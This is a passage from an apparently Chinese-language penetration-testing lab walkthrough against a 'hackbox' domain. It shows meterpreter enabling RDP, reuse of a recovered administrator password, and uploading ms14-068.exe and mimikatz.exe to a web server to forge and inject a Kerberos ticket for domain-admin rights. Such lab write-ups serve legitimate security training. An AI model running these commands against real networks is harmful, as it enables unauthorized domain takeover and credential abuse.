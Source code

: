 ![image-20230310192553084](https://s2.loli.net/2023/03/11/azLx9GgejFW73qo.png)

可以发现web的`administrator`的密码为`!@#Qwe456`

```shell
# 开启远程桌面连接
meterpreter > run post/windows/manage/enable_rdp
```

![image-20230310190720733](https://s2.loli.net/2023/03/11/Ywt2WD9Z3gICvlS.png)

```
rdesktop 192.168.12.147
```

使用域用户登录

```
使用hackbox域的web用户登录，尝试使用administrator的密码!@#Qwe456
```

![image-20230310193433920](https://s2.loli.net/2023/03/11/Ys1PryBiva5znbk.png)

说明密码是正确的，但是不能进行远程访问

```
hackbox\web    !@#Qwe456
```

8、通过ms14-068漏洞获取域管权限

通过菜刀或者msf将工具`ms14068.exe`上传到WEB服务器

```
upload /opt/tools/ms14-068/ms14-068.exe C:/phpstudy_pro/WWW/www.webhack123.com/ms14-068.exe
```

![image-20230310194709593](https://s2.loli.net/2023/03/11/Z8zFmDyWkhO5VYK.png)

进入shell，生成票据

```
ms14-068.exe -u web@hackbox.com -s S-1-5-21-2005268815-658469957-1189185684-1103 -d 10.10.10.149 -p !@#Qwe456
```

![image-20230310195132204](https://s2.loli.net/2023/03/11/8yogN4kR5ip7CvT.png)

通过菜刀或者msf将工具`mimikatz.exe`上传到WEB服务器

```
upload /opt/tools/ms14-068/mimikatz.exe C:/phpstudy_pro/WWW/www.webhack123.com/mimikatz.exe
```

进入shell，导入票据

```
mimikatz.exe "kerberos::purge" "kerberos::ptc TGT_web@hackbox.com.ccache" "exit"
```

![image-20230310195835176](https://s2.loli.net/2023/03/11/j5uMU8vswKDbAn6.png)
